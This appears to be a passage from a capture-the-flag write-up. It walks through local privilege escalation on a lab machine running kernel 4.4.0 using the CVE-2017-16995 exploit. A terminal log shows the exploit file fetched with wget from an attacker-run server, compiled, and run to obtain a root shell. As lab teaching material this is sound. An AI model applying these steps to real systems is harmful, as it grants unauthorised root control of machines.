 Look at the **Kernel** version! It is out-of-date which is **`4.4.0`**. There is a `cve-2017-16995` exploit this version and is able to ****Locally Escalate Privilege**** from this [source](https://www.exploit-db.com/exploits/45010). I create the exploit file on my local machine and then transfer it to the target system:

```
chuck@nerdherd:~$ ls -l pwn.c                                                                                       
-rw-rw-r-- 1 chuck chuck 28376 Ara 28 09:13 pwn.c

chuck@nerdherd:~$ wget http://10.9.63.75:8000/pwn.c
--2023-12-28 09:23:23--  http://10.9.63.75:8000/pwn.c
Connecting to 10.9.63.75:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 13248 (13K) [text/x-csrc]
Saving to: ‘pwn.c’

pwn.c                        100%[==============================================>]  12,94K  40,9KB/s    in 0,3s    

2023-12-28 09:23:24 (40,9 KB/s) - ‘pwn.c’ saved [13248/13248]
                                                                                                                    
chuck@nerdherd:~$ gcc pwn.c -o pwn
                                                                                  
chuck@nerdherd:~$ ls -l pwn                                                                                         
-rwxrwxr-x 1 chuck chuck 18432 Ara 28 09:23 pwn
                                                                     
chuck@nerdherd:~$ ./pwn                                                                                             
[.]                                                                                                                 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)                           
[.]                                                                                                                 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **                            
[.]                                                                                                                 
[*] creating bpf map                                                                                                
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff880007fa4300
[*] Leaking sock struct from ffff880005ef1e00
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff880007facc00
[*] UID from cred structure: 1000, matches the current: 1000
[*] hammering cred structure at ffff880007facc00
[*] credentials patched, launching shell...
# whoami;id
root
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare),1000(chuck)
```
